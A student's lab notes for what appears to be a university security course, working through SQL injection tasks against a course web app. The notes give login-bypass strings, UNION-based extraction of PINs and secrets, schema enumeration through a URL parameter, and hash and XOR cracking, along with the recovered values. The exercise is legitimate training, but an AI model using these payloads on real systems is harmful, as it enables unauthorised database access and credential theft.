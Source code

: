 # Task 1
Started without hints
USERNAME:PASSWORD

koubadom"# : whatever
koubadom : hrth" OR 1 = 1#
koubadom" OR 1=1# : whatever
koubadom . "' " .  "OR 1=1";#:what ever
- GOT: Wrong SQL query: SELECT username FROM users WHERE username = 'koubadom . "' " . "OR 1=1";#' AND password = SHA1(CONCAT('gregr', (SELECT salt FROM users WHERE username = 'koubadom . \"\' \" . \"OR 1=1\";#')))
koubadom . "' "; // : whatever
- GOT: Wrong SQL query: SELECT username FROM users WHERE username = 'koubadom . "' "; //' AND password = SHA1(CONCAT('weewrw', (SELECT salt FROM users WHERE username = 'koubadom . \"\' \"; //')))
same result with: 
koubadom' // as username
koubadom'; // as username

koubadom:joijge' //
Wrong SQL query: SELECT username FROM users WHERE username = 'koubadom' AND password = SHA1(CONCAT('joijge' //', (SELECT salt FROM users WHERE username = 'koubadom')))


koubadom: joijge')) OR 1 = 1


WORKED: koubadom' OR 1=1;#

BUT Welcome "komartom"


koubadom';# works fine



# Task 2
nothing' UNION SELECT pin from users WHERE username = 'koubadom';#   OR code

Wrong SQL query: SELECT username FROM users WHERE username = 'nothing' UNION SELECT code from users WHERE username = 'koubadom';#' AND password = SHA1(CONCAT('reht', (SELECT salt FROM users WHERE username = 'nothing\' UNION SELECT code from users WHERE username = \'koubadom\';#')))


koubadom' UNION SELECT pin from users;#

koubadom' UNION SELECT username from users;#

kouom' UNION SELECT username from users where username='komartom';# --> this work I am supposed to be komartom

kouom' UNION SELECT pin from users where username='komartom';# --> wrong credentials

code instead of pin --> Wrong SQL

kouom' UNION select `1` from (select 1,2,3 union select * from users where username='koubadom')eg;#

koum' union select `1` from (select 1 union select username from users where username='koubadom')eg limit 1 offset 1;#
--> that worked

column is called pin after look to assignment

koum' union select pin from users where username='koubadom';# --> wrong credentials


koubad' union select concat(username, pin) as username FROM users where username='koubadom';#


kouba' union select username from users where pin like '1%';#  --> I can crack all users

kouba' union select username from users where username='koubadom' and pin like '017%';# --> step by step

kouba' union select username from users where username='koubadom' and pin like '0170%';# --> BINGO

#Task 3

koum' union select secret from users where username='koubadom';#

TWF3PGZ74YFEJGXD - VOILA

#Task 4
record-guitar-emerge-loud

koum' union select concat(secret, username) from users where username='koubadom';#

koum' union select concat' . '(' . 'username,secret' . ')' . from users where username='koubadom';#

We should search in the system, ok

Let's use offset

https://kbe.felk.cvut.cz/index.php?offset=#

--> Message
Wrong SQL query: SELECT date_time, base64_message_xor_key AS message FROM messages WHERE username = 'koubadom' LIMIT 1 OFFSET

https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20username,%20pin%20from%20u://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20username,%20pin%20from%20users; --> list of users and their pins (but not asci)

https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20username,%20FROM_BASE64(secret)%20from%20users;
--> wrong query (used hint, forget about the first part of query)

List of sepcific attribute (username,...: https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20username,%20FROM_BASE64(salt)%20from%20users;

#Task 5

Hash from db: HASH(SHA1(CONCAT(original_password, salt)))

used crack.py - 33d39 is password (working)

#Task 6
https://www.dcode.fr/sha1-hash - does not work
https://hashes.com/en/decrypt/hash - did work
https://www.google.com/search?q=fm9fytmf7q&oq=fm9fytmf7q&aqs=chrome..69i57j0i13i30l2.10430j0j7&sourceid=chrome&ie=UTF-8

#Task 7
Firstly, it is not so long (10 chars). On the other hand at first view it looks like random passwword, which is good. After googling it reveals to be old access key to windows. So rainbow table obviously includes these.

#Task 8
https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20TABLE_SCHEMA,%20TABLE_NAME%20from%20INFORMATION_SCHEMA.TABLES%20where%20TABLE_NAME=%27users%27;# - schema name is 'kbe'

https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20TABLE_NAME,%20TABLE_NAME%20from%20INFORMATION_SCHEMA.TABLES%20where%20TABLE_SCHEMA=%27kbe%27;# - tables are codes, messages, users

https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20column_name,%20column_name%20from%20information_schema.columns%20where%20table_name=%27codes%27;# - comlumns in codes table are username, aes_encrypt_code

https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20column_name,%20column_name%20from%20information_schema.columns%20where%20table_name=%27messages%27;# - columns in messages table are username, base64_message_xor_key, date_time

https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20column_name,%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27;# - columns in users table are username, password, pin, secret, salt

https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20concat(table_name,%20%27%20%27,column_name),%20column_name%20from%20information_schema.columns;# - list all tables and columns in db

#Task 9

https://kbe.felk.cvut.cz/index.php?offset=1%20UNION%20select%20base64_message_xor_key,base64_message_xor_key%20from%20messages%20where%20username=%27koubadom%27;# - all messages

http://icyberchef.com/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)XOR(%7B'option':'UTF8','string':'Well,%20that%5C's%20all%20for%20now.%20Stay%20tuned%20for%20the%20next%20challenges.'%7D,'Standard',false)&input=THdvZU0wZEZEVGNERVJVU2Z3b09DWDlVWDBBUUZnQUZjVXMyRFQ0YlJVWVVNUTRHUlRsZFFoSkVFQXBTTVE0ZERYOEJEVk1OTXc0TUFqcEJIZz09

xor_key_be2a_kbe_2020

#Task 9

AES
record-guitar-emerge-loud
0400A5583D7BD43AD79CE455CD9F663184BE8042467EB5A99E7E9EBCFD6510F8





